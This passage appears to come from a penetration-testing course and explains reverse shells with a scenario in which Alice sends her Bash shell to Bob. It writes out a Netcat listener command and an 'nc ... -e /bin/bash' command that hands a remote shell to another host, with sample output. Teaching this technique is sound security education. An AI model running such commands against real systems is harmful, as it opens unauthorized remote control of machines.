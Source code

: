 In our second scenario, Alice needs help from Bob. However, Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her internal machine. 

In this scenario, we can leverage another useful feature of Netcat; the ability to send a command shell to a host listening on a specific port. 

In this situation, although Alice cannot bind a port to /bin/bash locally on her computer and expect Bob to connect, she can send control of her command prompt to Bob’s machine instead.

This is known as a reverse shell. To get this working, Bob will first set up Netcat to listen for an incoming shell. We will use port 4444 in our example:

	C:\Users\offsec> nc -nlvp 4444 listening on [any] 4444 ...

Now, Alice can send a reverse shell from her Linux machine to Bob. Once again, we use the -e option to make an application available remotely, which in this case happens to be /bin/bash, the Linux shell:

	kali@kali:~$ ip address show eth0 | grep inet inet 10.11.0.4/16 brd 10.11.255.255 scope global dynamic eth0

	kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash (UNKNOWN) [10.11.0.22] 4444 (?) open

Once the connection is established, Alice’s Netcat will have redirected /bin/bash input, output, and error data streams to Bob’s machine on port 4444, and Bob can interact with that shell:

Take some time to consider the differences between bind and reverse shells, and how these differences may apply to various firewall configurations from an organizational security standpoint. It is important to realize that outgoing traffic can be just as harmful as incoming traffic.

It’s not uncommon for host-based firewalls to block access to our precious bind shells. This can be incredibly frustrating at times, especially when under pressure and dealing with time constraints. When in doubt, we use a reverse shell as they are typically easier to troubleshoot.